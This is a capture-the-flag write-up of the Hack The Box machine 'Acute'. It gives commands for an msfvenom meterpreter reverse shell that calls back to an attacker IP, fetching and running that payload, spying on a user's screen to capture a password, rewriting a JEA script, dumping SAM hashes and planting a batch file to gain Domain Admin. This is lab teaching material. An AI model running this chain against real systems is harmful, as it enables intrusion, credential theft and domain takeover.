










Acute is a hard Windows machine that starts with a website on port `443`. The certificate of the website reveals a domain name `atsserver.acute.local`. Looking around the website there are several employees mentioned and with this information it is possible to construct a list of possible users on the remote machine. Enumerating the website reveals a form with procedures regarding newcomers to the company. The form reveals the default password that all accounts are initially set up with. It also reveals a link for a `Windows PowerShell Web Access` (PSWA) session. Combining all the available information from the enumeration process an attacker is able to get into a PowerShell session as the user `edavies` on `Acute-PC01`. Then, it is discovered that the user `edavies` is also logged on using an interactive session. Upon spying on the actions of `edavie` the clear text password of the `imonks` user for `ATSSERVER` can be retrieved. The user `imonks` is running under `Just Enough Administration` (JEA) on `ATSSERVER`, but even with the limited command set an attacker is able to modify a script on `ATSSERVER` in order to make `edavies` a local administrator on `Acute-PC01`. Now that `edavies` is a local administrator the `HKLM\sam` and `HKLM\system` can be retrieved from the system in order to extract the password hashes of all the users. The Administrator&amp;amp;amp;#039;s hash turns out to be crackable and the clear text password is re-used for `awallace` on `ATSSERVER`. The user `awallace` is able to create `BAT` scripts on a directory where the user `Lois` will execute them. `Lois` has the rights to add `imonks` to the `site_admin` group which in turn has right access to the `Domain Admins` group. So, after `imonks` is added to the `site_admin` group he can add himself to the `Domain Admins` group and acquire Administrative privileges.

## Enumeration

I started with an Nmap scan:

```bash
❯ nmap  -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.136.40

443/tcp

❯ nmap -p443 -sCV 10.129.136.40

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-server-header: 
|   Microsoft-HTTPAPI/2.0
|_  Microsoft-IIS/10.0
|_ssl-date: 2024-06-18T22:07:11+00:00; -1m11s from scanner time.
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The scan revealed one open port:

- 443/tcp: Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

### Web Enumeration

I'll add the domain `acute.local` and subdomain `atsserver.acute.local` to my `/etc/hosts`.

I navigated to `https://acute.local` and saw that it returns a 404:



But visiting `https://atsserver.acute.local` returns a site where we can enumerate some users.



```
awallace
chall
edavies
imonks
jmorgan
lhopkins
```

There's also a section where we can download a file `New_Starter_CheckList_v7.docx`.



We can see metadata of the file using `exiftool`.

```bash
❯ exiftool New_Starter_CheckList_v7.docx

[SNIP]
Creator                         : FCastle
Description                     : Created on Acute-PC01
Last Modified By                : Daniel
[SNIP]
```

We have the computer name: `Acute-PC01`. It could help us in the future. Analyzing the file, we found interesting things:







We got 1 password: `Password1!`, 2 Directories: `/Acute_Staff_Access` -> 200 OK and `/Staff` -> 404 Not Found and also a hint: _Lois is the only authorized personnel to change Group Membership_. 

If we go to `https://atsserver.acute.local/Acute_Staff_Access` we'll see a **Windows PowerShell Web Access** (PSWA). Where we can try to log in with some user and the password that we got earlier.



After trying different combos, we got a hit: `edavies:Password1!` and Computer Name: `Acute-PC01`



We are in! doing a basic recon we found that we are in a container:

```powershell
PS:\Users\edavies\Documents> ipconfig
 
Windows IP Configuration
 
Ethernet adapter Ethernet 2:
 
   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::9513:4361:23ec:64fd%14
   IPv4 Address. . . . . . . . . . . : 172.16.22.2
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.22.1
```

After a lot of enumeration I didn't find anything interesting until I enumerate active RDP sessions:

```powershell
PS:\Users\edavies\Documents> qwinsta

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE 
 console           edavies                   1  Active
```

`edavies` has an active session with RDP, we can try to get some screenshots of what he is doing, but it will take a long time and a lot of commands if `edavies` is writing something. So, what we can do from here is to get a shell with `meterpreter` and use the command `screenshare` to monitor his screen.

```bash
❯ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.41 LPORT=4444 -f exe > reverse.exe

❯ python3 -m http.server 80
```

```ruby
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler

[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter_reverse_tcp

[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 10.10.14.41

[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
```

```powershell
PS:\Users\edavies\Documents> iwr -uri http://10.10.14.41/reverse.exe -o C:\Windows\Temp\reverse.exe

PS:\Users\edavies\Documents> C:\Windows\Temp\reverse.exe
```

```ruby
(Meterpreter 1)(C:\Users\edavies\Documents) > screenshare
[*] Preparing player...
[*] Opening player at: /home/bara/Documents/CTFs/Machines/Acute/content/XsJxPUuc.html
[*] Streaming...
```

Now, if we visit the `.html` file that `metasploit` created, we'll see `edavies` doing some stuff in PowerShell.



He is trying to connect using `Enter-PSSession` to `ATSSERVER` as `imonks:W3_4R3_th3_f0rce.` Let's try to use this same credentials, but instead of using `Enter-PSSession` we're going to use `Invoke-Command` with the `-ScriptBlock` flag.

```powershell
PS:\> $passwd = ConvertTo-SecureString 'W3_4R3_th3_f0rce.' -AsPlainText -Force
PS:\> $cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $passwd)
PS:\> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami}

acute\imonks
```

Great, we can now execute commands in `ATSSERVER`. After a bit of enumeration, we found that there is a file under `C:\Users\imonks\Desktop` called `wm.ps1`

```powershell
PS:\> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls C:\Users\imonks\Desktop}

user.txt
wm.ps1

PS:\> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type C:\Users\imonks\Desktop\wm.ps1}
```

```powershell
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

`jmorgan` is Administrator under `Acute-PC01`

```
PS:\> net localgroup Administrators

ACUTE\Domain Admins
ACUTE\jmorgan
Administrator
```

We can try to get a reverse shell as `jmorgan` with `meterpreter` by modifying the script.

```powershell
PS:\> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {((Get-Content C:\Users\imonks\Desktop\wm.ps1 -raw) -Replace 'Get-Volume','cmd.exe /c C:\Windows\Temp\reverse.exe') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1}
```

```powershell
PS:\> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1}
```

```
(Meterpreter 1)(C:\Windows\Temp) > shell

C:\Windows\Temp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

As we have **SeBackupPrivilege** we can do `hashdump` with `metasploit` to obtain the NT hash of user Administrator on `Acute-PC01` and then try to crack it.

```
(Meterpreter 1)(C:\Windows\Temp) > hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
```



We got the password for the user Administrator in `Acute-PC01`, but... this won't give us the root flag. To do so, we need to get Admin in `ATSSERVER`, we can try to do some password spraying if anyone else is using this same password.

```powershell
PS:\> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls C:\Users}

Administrator                     
awallace
imonks
lhopkins
Public
```

The first user that appears is `awallace`, let's try to authenticate as him.

```powershell
PS:\> $passwd = ConvertTo-SecureString 'Password@123' -AsPlainText -Force
PS:\> $cred = New-Object System.Management.Automation.PSCredential ("acute\awallace", $passwd)
PS:\> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami}
acute\awallace
```

And we got it at the first try! Doing some recon, we find out that there is an script running every 5 minutes under `C:\Program Files\keepmeon\keepmeon.bat`.

```powershell
PS:\> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type C:\PROGRA~1\keepmeon\keepmeon.bat}
```

```
REM This is run every 5 minutes. For Lois use ONLY

@echo off
 for /R %%x in (*.bat) do (
 if not "%%x" == "%~0" call "%%x"
)
```

Basically, this script will execute every `.bat` file in the directory, and it says that `Lois` will execute it. So, from here we have 2 options, add `awallace` in some privileged group (_Lois is the only authorized personnel to change Group Membership_.), or get a shell as `lhopkins` and then add `awallace` to a privileged group. Of course that we'll do the first one, because is faster.

```powershell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {net group /domain}

*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Managers
*Protected Users
*Read-only Domain Controllers
*Schema Admins
*Site_Admin <- this one is the interesting
```

```powershell
PS:\> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {net group Site_admin /domain}

Group name     Site_Admin
Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group
```

So, if `lhopkins` is able to add us in this group, we'll have the same privileges that a `Domain Admin`.

```powershell
PS:\> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {'net group "Site_Admin" "awallace" /add /domain' | Set-Content -Path C:\PROGRA~1\keepmeon\add_user.bat}
```

Now if we wait 5 minutes, the user `awallace` will be in **Site_Admin** group.

```powershell
PS:\> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type C:\Users\Administrator\Desktop\root.txt}

9876b84d3f317ff5c0893e18477e1c13
```

Thanks for reading!

**Reference:**

- https://app.hackthebox.com/machines/438 